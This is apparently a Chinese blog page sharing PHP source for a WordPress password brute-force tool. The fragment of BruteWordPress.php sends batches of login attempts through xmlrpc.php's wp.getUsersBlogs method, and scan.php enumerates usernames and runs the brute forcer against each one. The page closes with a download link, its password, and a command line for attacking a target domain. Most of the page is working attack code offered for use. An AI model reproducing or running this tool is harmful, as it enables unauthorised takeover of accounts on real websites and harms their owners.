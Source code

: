 	        foreach ($passwords as $pass) {
	            $url = domain . '/xmlrpc.php';
	            $post_data = sprintf('<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>%s</value></param><param><value>%s</value></param></params></methodCall>', user, $pass);
	            $request = new RollingCurlRequest($url, 'POST', $post_data);
	            $request->options = array(CURLOPT_USERAGENT => USERAGENT);
	            $this->rc->add($request);
	        }
	        $this->rc->execute();
	    }
	}
	
	$brute = new BruteWordPress();
	$brute->run();
	?>

scan.php

	<?php
	include 'chkuser.php';
	
	$chk = new Chkuser();
	$chk->run();
	$user_arr = $chk->result();
	
	//print_r($user_arr);
	
	function broter($user) {
	    
	    system('php BruteWordPress.php ' . target . ' ' . $user);
	}
	printf("[+] %s Broting...\r\n", date('h:i:s', time()));
	foreach ($user_arr as $user) {
	    echo '[*] Brute user ' . iconv("UTF-8","GB18030//IGNORE",$user). " ..." . str_repeat(' ', 60) . "\r";
	    broter($user);
	}
	show_time();
	?>

打包下载
----------
文章引用来自：[体验盒子 | 关注网络安全](http://www.uedbox.com/brutewordpress-scan/)，请大家支持原创

链接:[http://pan.baidu.com/s/1jIMQPq2](http://pan.baidu.com/s/1jIMQPq2) ，密码：o5q3

使用方法很简单：下载这个资源，然后在scan.php所在文件夹下运行命令：

	php scan.php http://www.targetdomain.com